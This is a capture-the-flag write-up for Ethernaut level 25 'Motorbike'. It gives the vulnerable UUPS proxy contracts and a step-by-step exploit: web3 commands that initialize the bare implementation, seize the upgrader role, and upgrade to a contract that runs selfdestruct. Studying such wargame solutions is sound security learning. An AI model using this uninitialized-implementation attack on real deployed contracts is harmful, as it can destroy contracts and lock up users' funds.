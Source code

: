 # Ethernaut 25: Motorbike

Learn about the UUPS pattern. Initalization of a implementation combined with a delegatecall on the implementation will give a security breach.

## The Task Intro

Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to selfdestruct its engine and make the motorbike unusable ?

Things that might help:

EIP-1967
UUPS upgradeable pattern
Initializable contract

## The Task Code

```apache
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## The Solution

In this ethernaut challenge I see the first time the UUPS Pattern for upgradable contracts, which means the code to upgrade the implementation resides on the implementation. The storage is on the proxy, which holds in the UUPS pattern just the storage slot. The upgrade mechanism is in the implementation. It will be called through the proxy pattern.

The ethernaut Motorbike challange gives uns two contracts, Motorbike (Proxy) and Engine (Implementation). My task is to selfdestruct the engine.

Looking at the proxy it seems like I can do nothing through it, on the implementation there is no selfdestruct upcode in a function. Therefore I want to change the implementation, but this seems to be impossible through the proxy, because I am not the upgrader.

That lead my focus to the implementation contract, can I initalize the contract on the implementation level and be the upgrader myself? Yes - thats possible, no protection! This protection only resides on the Proxy level, there is the storage. Strange that there is no protection for this. Ok.

After I am upgrader of the contract, I want to upgrade the contract to a contract I created that only contains a function kill with a selfdestruct statement. Thats it:

````apache
// get the implementation address
await web3.eth.getStorageAt("MoterbikeAddress","0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
```
````

With the implementation address in my hand I call initalize:

```àpache
// initalize on the implementation
let initData = web3.eth.abi.encodeFunctionSignature("initialize()")
await web3.eth.sendTransaction({from: player, to: "implementationAddress", data: initData })
```

Now I am the upgrader, with this I want to call the upgradeToAndCall function, that allows me to change the implementation and make a delegate call. For this I need first a contract with a selfdestruct Upcode in a function, therefore I deploy a contract:

```àpache
contract AttackMotorbike {
    function kill() public {
        selfdestruct(payable(msg.sender));
    }
}
```

This is the new implementation I want to upgrade to and call the kill function. To do this I create two function selectors - upgradeToAndCall and kill. With the web3 library the only way to call a function with parameters is sentTransfer, for this I need to encode the full function with web3.eth.encodeFunctionCall. This function takes the function signature as json and followed with the parameters in an array. Unfortunately no method is there for adding the function selector as string.

```apache
// encode the kill function
let kill = web3.eth.abi.encodeEventSignature("kill()")

// create function signature
let upgradeSig = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}

// prepare the calldata with web3.eth.encodeFunctionCall
let data = web3.eth.abi.encodeFunctionCall(upgradeSig, ["AttackMotorbikeAddress", kill])

await web3.eth.sendTransaction({from: player, to: "implementationAddress", data: data })

```

Done 🎉️. The hardest part of this exercise was to understand the vulnerability of uninitalized implementation contracts. The proxy needs to initalize the implementation in the constructor. But this is not enough, because storage is hold on the proxy level. In this exercise I was able to initalize the implementation contract with its own storage, allowing me to change the implementation in its own storage and finally use selfdestruct :-), making the proxy contract useless.
